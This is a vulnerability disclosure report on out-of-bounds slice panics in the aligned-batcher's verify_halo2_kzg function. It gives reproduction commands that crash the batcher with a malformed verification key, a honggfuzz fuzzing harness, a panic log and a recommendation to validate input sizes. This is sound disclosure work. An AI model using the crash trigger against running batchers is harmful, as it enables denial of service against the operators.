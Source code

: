 # Multiple OOB in aligned-batcher halo2_kzg verification 

**Author(s):** Nabih Benazzouz [@Fuzzinglabs](https://github.com/FuzzingLabs/)

**Date:** 09/08/2024

## **Executive Summary**

While auditing and fuzzing some verification functions, we discovered that the `verify_halo2_kzg` function manipulates arrays without performing size verification. For instance, it uses the code snippet `let cs_len_buf: [u8; 4] = verification_key[..4]` without checking the size of the array.

## Vulnerability Details

- **Severity:** High

- **Affected Component:** batcher/aligned-batcher

## Environment

- **Distro Version:** 6.9.9-1-MANJARO
- **Additional Environment Details:** rustc 1.79.0-nightly (1cec373f6 2024-04-16)

## Steps to Reproduce

To demonstrate the issue, we provide a Proof of Concept (POC) to show that the bug can be triggered.

1. Start the batcher:

    ```sh
    make anvil_start_with_block_time
    make batcher_start
    ```

2. Trigger the bug with this command:

    ```sh
    ./batcher/target/release/aligned submit --proving_system Halo2KZG --proof ./scripts/test_files/sp1/sp1_fibonacci.proof --public_input scripts/test_files/sp1/sp1_fibonacci.elf --vk scripts/test_files/sp1/sp1_fibonacci.elf
    ```

## Root Cause Analysis

The `verify_halo2_kzg` function is vulnerable because it does not verify the length of any field or arguments before manipulating arrays or slices. This oversight allows for potential out-of-bounds errors.

Example:

```rust
...
let cs_len_buf: [u8; 4] = verification_key[..4];
...
cs_buffer[..cs_len].clone_from_slice(&verification_key[cs_offset..(cs_offset + cs_len)]);
...
vk_buffer[..vk_len].clone_from_slice(&verification_key[vk_offset..(vk_offset + vk_len)]);
...
and more

```

Here is a small harness that can help you trigger all the crashes in this function.

```rust
extern crate honggfuzz;

use aligned_batcher::halo2::kzg::verify_halo2_kzg;
use arbitrary::Arbitrary;

#[derive(Arbitrary, Debug)]
struct InputData {
    proof: Vec<u8>,
    public_input: Vec<u8>,
    verification_key: Vec<u8>,
}

fn main() {
    loop {
        honggfuzz::fuzz!(|data: &[u8]| {
            if let Ok(input) = InputData::arbitrary(&mut arbitrary::Unstructured::new(data)) {
                let _ =
                    verify_halo2_kzg(&input.proof, &input.public_input, &input.verification_key);
            }
        });
    }
}

```

Create the file under `batcher/aligned-batcher/src/fuzzing/verify_halo2_kzg_fuzz.rs`

Update the `cargo.toml` with:

```sh
[dependencies]
...
honggfuzz = "*"
arbitrary = {version = "1.0", features = ["derive"]}
...

[[bin]]
name ="verify_halo2_kzg_fuzz"
path = "src/fuzzing/verify_halo2_kzg_fuzz.rs"
```

Run it with:

```sh
cargo hfuzz run verify_halo2_kzg_fuzz

```

## Detailed Behavior

```sh
...
...
[2024-08-01T11:55:40Z DEBUG hyper::client::pool] pooling idle connection for ("http", localhost:8545)
thread 'tokio-runtime-worker' panicked at aligned-batcher/src/halo2/....:
range end index 1179403647 out of range for slice of length 2048
note: run with `RUST_BACKTRACE=1` environment variable to display a back
...
...

```

## Recommendations
Implement strict input validation to ensure all input fields are of expected size before processing.
